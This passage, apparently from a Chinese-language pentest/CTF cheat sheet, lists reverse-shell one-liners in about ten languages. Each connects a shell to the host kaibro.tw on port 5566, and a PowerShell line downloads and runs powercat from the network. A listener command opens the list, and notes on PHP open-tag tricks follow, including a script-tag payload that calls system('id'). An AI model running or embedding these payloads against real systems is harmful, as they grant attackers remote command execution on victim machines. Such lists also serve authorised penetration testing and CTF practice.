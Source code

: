 - 本機Listen Port
    - `ncat -vl 5566`

- Perl
    - `perl -e 'use Socket;$i="kaibro.tw";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
    - `bash -i >& /dev/tcp/kaibro.tw/5566 0>&1`
    - `bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`
    - `0<&196;exec 196<>/dev/tcp/kaibro.tw/5566; sh <&196 >&196 2>&196`

- PHP
    - `php -r '$sock=fsockopen("kaibro.tw",5566);exec("/bin/sh -i <&3 >&3 2>&3");'`

- NC
    - `nc -e /bin/sh kaibro.tw 5566`

- Telnet
    - `mknod backpipe p && telnet kaibro.tw 5566 0<backpipe | /bin/bash 1>backpipe`

- Python
    - `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("kaibro.tw",5566));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

- Ruby 
    - `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("kaibro.tw","5566");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`

- Node.js
    - `var net = require("net"), sh = require("child_process").exec("/bin/bash"); var client = new net.Socket(); client.connect(5566, "kaibro.tw", function(){client.pipe(sh.stdin);sh.stdout.pipe(client); sh.stderr.pipe(client);});`
    - `require('child_process').exec("bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'");`

- Java
    - `Runtime r = Runtime.getRuntime();Process p = r.exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/kaibro.tw/5278;cat <&5 | while read line; do $line 2>&5 >&5; done"});p.waitFor();`
    - `java.lang.Runtime.exec()` payload generator: http://www.jackson-t.ca/runtime-exec-payloads.html

- Powershell
    - `powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c kaibro.tw -p 5566 -e cmd`

# PHP Tag

- `<? ?>`
    - short_open_tag 決定是否可使用短標記
    - 或是編譯php時 --enable-short-tags
- `<?=`
    - 等價 <? echo
    - 自`PHP 5.4.0`起，always work!
- `<% %>`、`<%=`
    - 自`PHP 7.0.0`起，被移除
    - 須將`asp_tags`設成On
- `<script language="php"`
    - 自`PHP 7.0.0`起，被移除
    - `<script language="php">system("id"); </script>`
